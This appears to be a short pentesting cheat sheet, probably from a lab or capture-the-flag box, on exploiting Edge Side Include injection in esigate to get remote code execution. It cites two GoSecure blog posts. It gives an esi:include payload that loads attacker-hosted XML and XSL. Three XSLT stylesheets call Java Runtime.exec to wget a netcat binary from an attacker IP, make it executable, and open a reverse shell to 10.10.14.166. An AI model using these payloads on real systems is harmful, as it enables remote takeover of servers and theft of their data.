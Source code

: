 # This is related to the answer in the headers : X-Powered-By : esigate

Papers : https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/

https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/

## How to exploit ?

### RCE with XSLT injection

- Launch a listener on port 80

- In the box where you can send data, send : 
```
<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>
```
- Then, search for your data in the search bar of search url and see if you have an answer on your webserver. If so, it's time to create a reverse shell !

- Create 3 blank xml file, and 3 xsl files like these :

- wget : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.166:8000/nc -O vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- chmod : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod 777 vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
- shell : 
```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./vnc -e /bin/sh 10.10.14.166 9001 ]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- Change the part test.xml and test.xsl to wget, chmod and shell and send it : ```<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>```